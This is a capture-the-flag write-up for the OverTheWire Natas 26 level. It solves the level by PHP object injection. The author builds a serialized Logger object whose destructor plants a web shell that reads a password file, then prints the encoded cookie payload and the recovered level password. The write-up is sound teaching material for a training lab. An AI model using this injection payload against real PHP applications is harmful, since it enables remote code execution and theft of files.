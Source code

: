 # URL: http://natas26.natas.labs.overthewire.org/

# Solution:

**DISCLAIMER**: Wouldn't figure this out without help from Internet, thanks to all people doing public writeups from which I can learn.

So the website itself is a primitive drawing tool where user can input X and Y coordiantes to draw a line mulitple time on static canvas.
The canvas is 400x300 pixels in dimensions. The drawn lines so far are ketp in `COOKIE` value under: `drawing` key serialized base64 format.  
At the first glance:

```
    session_start();

    if (array_key_exists("drawing", $_COOKIE) ||
        (   array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET))){
        // img/natas26_COOKIE.png
        // img/natas26_/../../../../../../../../../../../../../../etc/natas_webpass/natas26
        $imgfile="img/natas26_" . session_id() .".png";
        drawImage($imgfile);
        showImage($imgfile);
        storeData();
    }
```

`$imgfile` variable looks like good candidate to attack because it is using `session id` as part of path but it is always adding `.png` extenion so we can't make it access our extension-less `etc/natas_webpass/natas27`  
At that point I noticed the `Logger class` and saw that it is loggining something to `/tmp/` but since that code was not used anywhere in the code + I could not access files at `tmp` I had no idea what to do.  
Looking for hints online, braught me to writeups of other people mentioning that `PHP Object Injection` could be used due to `__destruct` function being a part of `Logger` class.  
OWASP docs:  
https://www.owasp.org/index.php/PHP_Object_Injection

# Solution:

Since the code is using `$drawing=unserialize(base64_decode($_COOKIE["drawing"]));` and not sanitizing the value of `drawing` anyhow, we can use the `PHP Object Injection` on `Logger` class.

Execute following PHP Code to generate payload that you need to place in `drawing` cookie value:

```
<?
    class Logger{
        // we can access img directory so create there PHP file
        private $logFile = "img/darek_shell.php";
        // initMsd does not metter since we will use __destruct and __destruct uses exitMsg
        private $initMsg = "does not metter";
        // PHP Code to inject
        private $exitMsg = "<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>";

        function __construct($file) {}

        function log($msg){}

        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }
    }

    $createdLogger = new Logger("some");
    echo urlencode(base64_encode(serialize($createdLogger)));
?>
```

This will print out:  
`Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxOToiaW1nL2RhcmVrX3NoZWxsLnBocCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjE1OiJkb2VzIG5vdC BtZXR0ZXIiO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo2MjoiPD9waHAgZWNobyBmaWxlX2dldF9jb250ZW50cygnL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO30%3D`  
Now pass this value into `drawing` cookie and send another request and this will crate our PHP file that you can `GET` to execute injected code and therefore get the password.

**Why this works?**  
Because during `unserialize` call on `drawing` cookie value, the `__destruct` method is going to be called on our mocked `Logger` instance.

`Natas 27 password: 55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ`
